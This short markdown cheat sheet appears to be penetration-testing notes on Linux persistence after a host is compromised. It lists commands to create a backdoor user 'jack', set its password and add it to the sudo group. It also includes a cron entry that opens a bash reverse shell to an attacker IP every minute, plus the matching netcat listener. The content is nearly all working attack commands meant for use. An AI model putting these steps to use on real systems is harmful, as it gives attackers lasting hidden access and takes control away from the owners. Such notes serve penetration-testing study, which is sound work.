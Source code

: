 ### Persistence
#### User Accounts
```
useradd jack
```
- Adds the user jack to the target host
```
passwd jack
```
- Allows you to set the desired password for the newly created user
```
usermod -a -G sudo jack
```
- Adds the user jack to the sudo group on the box 

#### Cron Jobs
```
cat /etc/crontab
```
- Allows you to see the system wide cron jobs
```
crontab -e
```
- Allows you to edit the file for your users cron jobs
```
crontab -l
```
- Prints the cron jobs set for your user
#### Cron Reverse Shell
```
* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Creates a reverse shell that call back to your attack box ip every minute
```
nc -nlvp 1234
```
-Create the listener on your attack box to cat the incoming shell


